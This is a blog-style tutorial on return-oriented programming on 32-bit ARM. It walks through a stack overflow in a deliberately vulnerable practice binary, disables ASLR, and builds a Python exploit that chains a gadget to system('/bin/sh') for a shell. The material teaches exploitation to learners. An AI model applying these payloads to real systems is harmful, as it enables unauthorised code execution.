 ```yaml
---
template: text.html
title: Return Oriented Programming on ARM (32-bit)
subtitle: Making stack-based exploitation great again!
date: 2019-06-06
---
```


Before we start _anything_, you’re expected to know the basics of ARM
assembly to follow along. I highly recommend
[Azeria’s](https://twitter.com/fox0x01) series on [ARM Assembly
Basics](https://azeria-labs.com/writing-arm-assembly-part-1/). Once you’re
comfortable with it, proceed with the next bit---environment setup.

## Setup

Since we’re working with the ARM architecture, there are two options to go
forth with: 

1. Emulate---head over to [qemu.org/download](https://www.qemu.org/download/) and install QEMU. 
And then download and extract the ARMv6 Debian Stretch image from one of the links [here](https://blahcat.github.io/qemu/).
The scripts found inside should be self-explanatory.
2. Use actual ARM hardware, like an RPi.

For debugging and disassembling, we’ll be using plain old `gdb`, but you
may use `radare2`, IDA or anything else, really. All of which can be
trivially installed.

And for the sake of simplicity, disable ASLR:

```shell
$ echo 0 > /proc/sys/kernel/randomize_va_space
```

Finally, the binary we’ll be using in this exercise is [Billy Ellis’](https://twitter.com/bellis1000)
[roplevel2](/static/files/roplevel2.c). 

Compile it:
```sh
$ gcc roplevel2.c -o rop2
```

With that out of the way, here’s a quick run down of what ROP actually is.

## A primer on ROP

ROP or Return Oriented Programming is a modern exploitation technique that’s
used to bypass protections like the **NX bit** (no-execute bit) and **code sigining**.
In essence, no code in the binary is actually modified and the entire exploit
is crafted out of pre-existing artifacts within the binary, known as **gadgets**.

A gadget is essentially a small sequence of code (instructions), ending with
a `ret`, or a return instruction. In our case, since we’re dealing with ARM
code, there is no `ret` instruction but rather a `pop {pc}` or a `bx lr`.
These gadgets are _chained_ together by jumping (returning) from one onto the other
to form what’s called as a **ropchain**. At the end of a ropchain,
there’s generally a call to `system()`, to acheive code execution.

In practice, the process of executing a ropchain is something like this:

- confirm the existence of a stack-based buffer overflow
- identify the offset at which the instruction pointer gets overwritten
- locate the addresses of the gadgets you wish to use
- craft your input keeping in mind the stack’s layout, and chain the addresses
of your gadgets

[LiveOverflow](https://twitter.com/LiveOverflow) has a [beautiful video](https://www.youtube.com/watch?v=zaQVNM3or7k&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=46&t=0s) where he explains ROP using “weird machines”. 
Check it out, it might be just what you needed for that “aha!” moment :)

Still don’t get it? Don’t fret, we’ll look at _actual_ exploit code in a bit and hopefully
that should put things into perspective.

## Exploring our binary

Start by running it, and entering any arbitrary string. On entering a fairly
large string, say, “A” × 20, we
see a segmentation fault occur.

![string and segfault](/static/img/string_segfault.png)

Now, open it up in `gdb` and look at the functions inside it.

![gdb functions](/static/img/gdb_functions.png)

There are three functions that are of importance here, `main`, `winner` and 
`gadget`. Disassembling the `main` function:

![gdb main disassembly](/static/img/gdb_main_disas.png)

We see a buffer of 16 bytes being created (`sub	sp, sp, #16`), and some calls
to `puts()`/`printf()` and `scanf()`. Looks like `winner` and `gadget` are 
never actually called.

Disassembling the `gadget` function:

![gdb gadget disassembly](/static/img/gdb_gadget_disas.png)

This is fairly simple, the stack is being initialized by `push`ing `{r11}`,
which is also the frame pointer (`fp`). What’s interesting is the `pop {r0, pc}`
instruction in the middle. This is a **gadget**.

We can use this to control what goes into `r0` and `pc`. Unlike in x86 where
arguments to functions are passed on the stack, in ARM the registers `r0` to `r3`
are used for this. So this gadget effectively allows us to pass arguments to
functions using `r0`, and subsequently jumping to them by passing its address
in `pc`. Neat.

Moving on to the disassembly of the `winner` function:

![gdb winner disassembly](/static/img/gdb_disas_winner.png)

Here, we see a calls to `puts()`, `system()` and finally, `exit()`.
So our end goal here is to, quite obviously, execute code via the `system()`
function.

Now that we have an overview of what’s in the binary, let’s formulate a method
of exploitation by messing around with inputs.

## Messing around with inputs :^)

Back to `gdb`, hit `r` to run and pass in a patterned input, like in the
screenshot.

![gdb info reg post segfault](/static/img/gdb_info_reg_segfault.png)

We hit a segfault because of invalid memory at address `0x46464646`. Notice
the `pc` has been overwritten with our input.
So we smashed the stack alright, but more importantly, it’s at the letter ‘F’.

Since we know the offset at which the `pc` gets overwritten, we can now
control program execution flow. Let’s try jumping to the `winner` function.

Disassemble `winner` again using `disas winner` and note down the offset
of the second instruction---`add r11, sp, #4`. 
For this, we’ll use Python to print our input string replacing `FFFF` with
the address of `winner`. Note the endianness.

```shell
$ python -c 'print("AAAABBBBCCCCDDDDEEEE\x28\x05\x01\x00")' | ./rop2
```

![jump to winner](/static/img/python_winner_jump.png)

The reason we don’t jump to the first instruction is because we want to control the stack
ourselves. If we allow `push {rll, lr}` (first instruction) to occur, the program will `pop`
those out after `winner` is done executing and we will no longer control 
where it jumps to.

So that didn’t do much, just prints out a string “Nothing much here...”. 
But it _does_ however, contain `system()`. Which somehow needs to be populated with an argument
to do what we want (run a command, execute a shell, etc.).

To do that, we’ll follow a multi-step process: 

1. Jump to the address of `gadget`, again the 2nd instruction. This will `pop` `r0` and `pc`.
2. Push our command to be executed, say “`/bin/sh`” onto the stack. This will go into
`r0`.
3. Then, push the address of `system()`. And this will go into `pc`.

The pseudo-code is something like this:
```
string = AAAABBBBCCCCDDDDEEEE
gadget = # addr of gadget
binsh  = # addr of /bin/sh
system = # addr of system()

print(string + gadget + binsh + system)
```
Clean and mean.


## The exploit

To write the exploit, we’ll use Python and the absolute godsend of a library---`struct`.
It allows us to pack the bytes of addresses to the endianness of our choice.
It probably does a lot more, but who cares.

Let’s start by fetching the address of `/bin/sh`. In `gdb`, set a breakpoint
at `main`, hit `r` to run, and search the entire address space for the string “`/bin/sh`”:


```
(gdb) find &system, +9999999, "/bin/sh"
```
![gdb finding /bin/sh](/static/img/gdb_find_binsh.png)

One hit at `0xb6f85588`. The addresses of `gadget` and `system()` can be
found from the disassmblies from earlier. Here’s the final exploit code:
```python
import struct

binsh = struct.pack("I", 0xb6f85588)
string = "AAAABBBBCCCCDDDDEEEE"
gadget = struct.pack("I", 0x00010550)
system = struct.pack("I", 0x00010538)

print(string + gadget + binsh + system)

```
Honestly, not too far off from our pseudo-code :)

Let’s see it in action:

![the shell!](/static/img/the_shell.png)

Notice that it doesn’t work the first time, and this is because `/bin/sh` terminates
when the pipe closes, since there’s no input coming in from STDIN.
To get around this, we use `cat(1)` which allows us to relay input through it
to the shell. Nifty trick.

## Conclusion

This was a fairly basic challenge, with everything laid out conveniently. 
Actual ropchaining is a little more involved, with a lot more gadgets to be chained
to acheive code execution.

Hopefully, I’ll get around to writing about heap exploitation on ARM too. That’s all for now.
